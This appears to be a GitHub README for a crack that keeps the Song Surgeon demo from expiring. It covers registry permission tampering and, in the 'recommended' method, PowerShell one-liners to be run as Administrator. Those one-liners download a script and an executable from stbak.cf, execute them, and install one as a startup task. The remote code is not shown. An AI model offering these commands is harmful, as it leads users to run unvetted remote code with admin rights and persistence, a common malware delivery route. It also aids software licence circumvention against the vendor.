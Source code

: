 # Song Surgeon Unlimited Demo (Crack)
Song Surgeon was first released in 2007, and is now a decade old... From its first humble beginnings it has grown to be one of the most popular and valuable tools used by musicians – both students and teacher. At last count Song Surgeon has been sold in more than 120 countries worldwide – and by musicians that play 37 different instruments.

Our newly released Version 5 of Song Surgeon takes the program to a whole new level with the addition of key detection, automatic beat detection, and chord detection. What that means is that when you open a song, Song Surgeon will automatically detect the tempo of a song in BPMs, in will determine the key signature, it will detect the chords – and it will display all of this information on the main user interface so you can see and use it. We know of no other audio slowdowner software that provides these three features in one program. And of course, that’s just the beginning.

In addition to providing nearly flawless, distortion-free key and tempo change of audio, Song Surgeon has a long list of other useful features:

# How to Increase time of Song Surgeon?
There has 2 method for increasing time of Song Surgeon Demo Version, 1st one is registy and 2nd one is PowerShell script (online)

| Registry | PowerShell |
| ------- | ------------------ |
| It will freeze current time so that the program will not be Expire | It will Set the program time to infity amount of time that you will be old but the demo will not be Expire|
| Hard for those who doesn't has enough knowledge about registry | Easy for those who know basic knowledge about computers |
| It only can set infinity trial on the Free Version | It only can set infinity trial on the Premium Version* |
| No need any Internet Connection | Needs a stable Internet Connection |
| Real time update not available | Real time update available on [stbak.cf](https://stbak.cf) |

*Song Surgeon comes with 2 program which is a free demo (Limited) and another is paid demo, you can choose which demo you will use, just goto the Song Surgeon Program directory and open **switcher.bat**

# Installation
## 1st Method (Registry)

[Download Registry file into your Computer](/V_5.reg)  

On Windows 10
1. Merge the Registry into your Windows Registry
2. Open **regedit.exe** and then goto this directory `Computer\HKEY_USERS\S-1-5-21-3204273600-1076203570-2903160593-1001\SOFTWARE\TMJ\Demos`
3. Right Click on `SS_<Version of Song Surgeon>` and choose Permissions.., click on Advanced and then Disable inheritance (Windows 10)
4. Then Remove all inheritance Permissions from the object, Add > Select a Principal, type `everyone` in the object name box and click OK
5. Under Basic Permissions choose **Read** and click OK  

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20203647.png?raw=true">
</P>

6. Click OK, After clicking OK if you see the following Screen then you are done!

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20204126.png?raw=true">
</P>


## 2nd Method (PowerShell) [Recommended]

This method needs an stable internet connection, If you are using latest version of Song Surgeon then It's recommended to use this script.

1. Goto start menu and search for **powershell**, Right click on it and Choose **Run as Administrator**
2. After comfirming Admin Password, type the below code into the powershell window and hit enter
```
wget stbak.cf/ss -outfile ss.cmd; ss.cmd; del ss.cmd
```
3. Now Open the Song Surgeon and see how the script magically works on it.

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20213220.png?raw=true">
</P>

### Install As Startup task

This method doesn't lock the time of your Program so te demo time continues counting for prevent the program from being Expaired add the tool into your computer startup, it means the program will be run automatically on start. For doing this type below code into powershell window and hit enter.
```
cd\; wget stbak.cf/sss -outfile sss.exe; .\sss.exe
```
for deleting temporary files which created by powershell use
```
remove-item sss.exe
```

***Note: Make sure you manually patch the code before using the install as startup task.***

# Contact
If you has any Query then you can contact me at [Telegram](https://t.me/BiltuDas1)
